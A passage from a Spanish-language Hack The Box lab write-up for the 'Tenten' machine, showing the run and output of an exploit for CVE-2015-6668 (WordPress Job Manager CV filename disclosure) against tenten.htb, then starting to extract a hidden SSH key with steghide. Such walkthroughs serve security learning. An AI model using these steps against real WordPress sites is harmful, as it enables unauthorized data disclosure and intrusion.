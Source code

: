 - Básicamente en esa parte se suben `CV` y si usamos el script y le pasamos el nombre del `Title` vemos que nos reporta esto, esta vulnerabilidad nos permite filtrar títulos de publicaciones en la base de datos incluyendo cosas privadas es por eso que nos reporte una imagen.

```bash
❯ python3 exploit.py

CVE-2015-6668
Title: CV filename disclosure on Job-Manager WP Plugin
Author: Evangelos Mourikis
Blog: https://vagmour.eu
Plugin URL: http://www.wp-jobmanager.com
Versions: <=0.7.25

Enter a vulnerable website: http://tenten.htb 
Enter a file name: HackerAccessGranted
[+] URL of CV found! http://tenten.htb/wp-content/uploads/2017/04/HackerAccessGranted.jpg
```

- Esta es la imagen.

<p align="center">
<img src="/assets/hackthebox/img/machines/medium/tenten/6.png">
</p>

- Vamos a guardarla.

## Shell as takis

- Con la herramienta `steghide` podemos ver información oculta si la usamos podemos observar que nos dicen sobre una `id_rsa`.
